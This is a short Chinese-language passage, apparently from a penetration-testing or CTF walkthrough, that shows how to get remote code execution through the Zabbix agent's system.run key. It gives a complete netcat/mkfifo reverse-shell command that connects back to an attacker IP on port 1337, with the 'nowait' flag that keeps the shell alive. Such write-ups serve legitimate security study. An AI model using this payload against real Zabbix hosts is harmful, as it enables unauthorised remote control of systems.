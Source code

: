 ![](img/d3a56735ec9ef345a145b85dd30761c3.png)

有一个叫`system.run[command,<mode>]`的特定键看起来很有意思。它允许我们在主机上运行命令。我们可以让 RCE 加入这个系统。

通读 https://www.zabbix.com/documentation/5.0/manual[的文档，我知道我们只需要如下设置密钥，并测试我们的反向外壳是否工作:](https://www.zabbix.com/documentation/5.0/manual)

首先在端口 1337 设置一个 netcat 监听器，并按如下方式设置密钥:

```
system.run[rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 |nc YOUR_IP_HERE 1337 >/tmp/f, nowait]
```

将需要第二个参数`nowait`(默认设置为`wait`)。如果没有这个参数，外壳会立即掉落。

![](img/11684f4e95f658960093e85938d7e700.png)
